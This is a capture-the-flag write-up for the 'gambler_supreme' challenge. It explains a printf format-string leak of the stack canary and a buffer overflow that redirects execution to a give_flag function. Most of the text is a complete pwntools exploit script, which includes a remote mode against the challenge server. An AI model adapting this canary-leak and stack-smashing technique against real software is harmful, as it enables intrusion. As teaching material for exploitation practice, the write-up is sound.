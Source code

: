 ## Question 

The Casino, but with a cool new feature! 

You must create a flag.txt in the same folder as the binary for it to run. 

nc ctf.b01lers.com 9201 

Author: robotearthpizza 

Difficulty: Hard 

[gambler_supreme](gambler_supreme)

## Solution

The binary has NX, Stack, Canaries, and Full RELRO enabled. 

```
$ pwn checksec ./gambler_supreme'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We see that the binary calls printf() on user-specified input without a format specifier. 

```
004016c7          printf("Your guess: ");
004016d8          printf(&var_38);
004016e2          putchar(0xa);
```

This allows us to leak the canary. On quick check, we can identify that it is at offset 13.

```
$ python3 pwn-gamblers_supreme.py BIN=./gambler_supreme LEAK | grep 00
    PIE:      No PIE (0x400000)
b'%13$p' b' 0xbfcd82868a531500\n'
b'%19$p' b' 0x1e7963000\n'
b'%28$p' b' 0x44009a0ed828d773\n'

$ gdb ./gambler_supreme 

pwndbg> r
Guess me a string of length 7 with lowercase letters: %13$p
Your guess: 0xd3813a8e16bdf900

pwndbg> canary
Canary    = 0xd3813a8e16bdf900 (may be incorrect on != glibc)
```

The binary also suffers from a buffer overflow. To succesfully exploit, we can cause the buffer overflow, overwrite the canary, and redirect return address to the ```give_flag``` function.

```python
from pwn import *
import sys

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''


def find_canary():
    print("LEAK")
    for i in range(50):
        p = process(args.BIN, level="error")
        p.recvuntil(b'Enter a difficulty between 1 and 7 (inclusive): ')
        p.sendline(b'7')
        p.recvuntil(b'Guess me a string of length 7 with lowercase letters:')
        leak = b'%%%i$p' % i
        p.sendline(leak)
        p.recvuntil(b'Your guess:')
        print(leak, p.recvline())
        p.close()


def start():
    if args.LEAK:
        find_canary()
        sys.exit(0)

    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('ctf.b01lers.com', 9201)
    else:
        return process(e.path)


p = start()


def setup():
    p.recvuntil(b'Enter a difficulty between 1 and 7 (inclusive)')
    p.sendline(b'7')


def leak_canary():
    p.recvuntil(b'Guess me a string of length 7 with lowercase letters')
    p.sendline(b'%13$p')
    p.recvuntil(b'Your guess:')
    canary = int(p.recvline().strip(b'\n'), 16)
    return canary


def smash_stack(canary):
    p.recvline(b'Guess me a string of length 7 with lowercase letters:')
    pad = cyclic(40)
    chain = p64(canary)
    chain += p64(0xdeadbeef)
    chain += p64(e.sym['give_flag'])
    p.sendline(pad+chain)


setup()
canary = leak_canary()
smash_stack(canary)

p.interactive()
```
